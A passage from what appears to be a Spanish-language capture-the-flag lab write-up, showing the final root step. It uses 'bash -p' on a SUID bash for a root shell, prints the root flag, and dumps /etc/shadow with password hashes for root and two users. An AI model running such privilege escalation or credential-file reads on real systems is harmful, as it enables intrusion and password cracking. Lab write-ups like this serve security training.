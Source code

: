 ## Shell as root && root.txt

Ahora nos convertimos en **root** y vemos la **flag**

```bash
bash-5.0$ bash -p
bash-5.0# cd /root
bash-5.0# cat root.txt 
d67f223f791dd5a6f46cf0672ed04953
bash-5.0# hostname -I
10.10.11.204 dead:beef::250:56ff:feb9:1fd4 
bash-5.0#
```

```bash
bash-5.0# cat /etc/shadow
root:$6$KeHoGfvAPeHOqplu$tC/4gh419crGM6.btFzCazMPFH0gaX.x/Qp.PJZCoizg4wYcl48wtOGA3lwxNjooq9MDzJZJvzav7V37p9aMT1:19381:0:99999:7:::
daemon:*:19046:0:99999:7:::
bin:*:19046:0:99999:7:::
sys:*:19046:0:99999:7:::
sync:*:19046:0:99999:7:::
games:*:19046:0:99999:7:::
man:*:19046:0:99999:7:::
lp:*:19046:0:99999:7:::
mail:*:19046:0:99999:7:::
news:*:19046:0:99999:7:::
uucp:*:19046:0:99999:7:::
proxy:*:19046:0:99999:7:::
www-data:*:19046:0:99999:7:::
backup:*:19046:0:99999:7:::
list:*:19046:0:99999:7:::
irc:*:19046:0:99999:7:::
gnats:*:19046:0:99999:7:::
nobody:*:19046:0:99999:7:::
systemd-network:*:19046:0:99999:7:::
systemd-resolve:*:19046:0:99999:7:::
systemd-timesync:*:19046:0:99999:7:::
messagebus:*:19046:0:99999:7:::
syslog:*:19046:0:99999:7:::
_apt:*:19046:0:99999:7:::
tss:*:19046:0:99999:7:::
uuidd:*:19046:0:99999:7:::
tcpdump:*:19046:0:99999:7:::
landscape:*:19046:0:99999:7:::
pollinate:*:19046:0:99999:7:::
usbmux:*:19090:0:99999:7:::
systemd-coredump:!!:19090::::::
frank:$6$fBwyjkLHtSuUCpHx$6G9LujV0iop.QxbfQpwDcSaRWDDobBlVMo5.6gVJVnQabcbmFwdkwFfmJNAX27u3Cdg9ZO5977pCst7hF98kc/:19381:0:99999:7:::
lxd:!:19090::::::
sshd:*:19260:0:99999:7:::
phil:$6$Z.KhzrHH6PXCuNbO$dL9xyMTydwjYPcrunZb7OO9a0hCwrUPOeQfdum818rW4NPtsiXEji15NMmikgYBGLDbWPUfLIpCpOuCRxYedM.:19388:0:99999:7:::
fwupd-refresh:*:19389:0:99999:7:::
_laurel:!:19389::::::
bash-5.0#
```
